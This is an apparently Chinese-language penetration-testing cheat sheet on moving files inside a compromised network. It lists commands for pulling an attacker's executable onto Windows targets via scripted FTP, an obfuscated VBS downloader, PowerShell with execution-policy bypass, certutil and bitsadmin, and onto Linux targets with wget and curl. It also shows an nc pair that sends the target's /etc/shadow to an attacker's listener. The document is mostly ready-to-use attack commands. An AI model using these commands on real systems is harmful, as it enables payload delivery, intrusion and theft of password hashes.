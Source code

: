 # 内网文件传输

#### Windows目标 <a id="windows-"></a>

**FTP**

```text
1、echo open 192.168.0.23 2121 >> 1.txt         //登陆FTP服务器
2、echo 123>>1.txt                              //用户名
3、echo 123>>1.txt                              //密码
4、echo bin>>1.txt                              //开始
5、echo get exp.exe>>1.txt                      //下载程序
6、echo bye>>1.txt                              //关闭FTP服务器
```

输入上面命令后，在远程计算机上就会生成一个1.txt文件，执行命名：

```text
ftp -s:1.txt                        //以1.txt中的内容执行ftp命令
```

**VBS**

```text
echo set a=createobject(^"adod^"+^"b.stream^"):set w=createobject(^"micro^"+^"soft.xmlhttp^"):w.open ^"get^",wsh.arguments( 0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> loader.vbs
cscript loader.vbs http://192.168.111.1:8080/test/putty.exe C:\Users\linghuchong\Desktop\Tools\putty.exe
putty.exe
```

![](https://p408.ssl.qhimgs4.com/t017cf11b3dfcb24f8f.png)

**Powershell**

```text
 powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.111.1:8080/test/putty.exe','C:\Users\linghuchong\Desktop\Tools\putty1.exe')
 putty1.exe
```

![](https://p408.ssl.qhimgs4.com/t01220590f6f666844e.png)

**certutil**

```text
certutil.exe -urlcache -split -f http://192.168.111.1:8080/test/putty.exe
certutil.exe -urlcache -split -f http://192.168.111.1:8080/test/putty.exe delete        //删除缓存
putty.exe
```

**bitsadmin**

```text
bitsadmin /transfer 123 http://192.168.111.1:8080/test/putty.exe C:\Users\School-DU1\Desktop\dbeaver\123.exe
```

#### Linux目标 <a id="linux-"></a>

**nc**

攻击端监听端口，并重定向：

```text
nc -nvv -lp 4455 > shaodw.txt
```

目标机将文件内容回传：

```text
nc 192.168.111.251 4455 < /etc/shadow
```

![](https://p408.ssl.qhimgs4.com/t01d7f152e4fe3c328e.png)

**wget**

wget [http://192.168.111.1:8080/test/putty.exe](http://192.168.111.1:8080/test/putty.exe)

**curl**

```text
curl -O http://192.168.111.1:8080/test/putty.exe
```

#### 环境搭建 <a id="-"></a>

**使用python搭建http服务器**

Python启动simplehttpserer

![](https://p408.ssl.qhimgs4.com/t01368b22a57c8e4e1f.png)

**使用python搭建ftp服务器**

利用pyftpdlib搭建ftp服务器

![](https://p408.ssl.qhimgs4.com/t0160319195f1eea375.png)

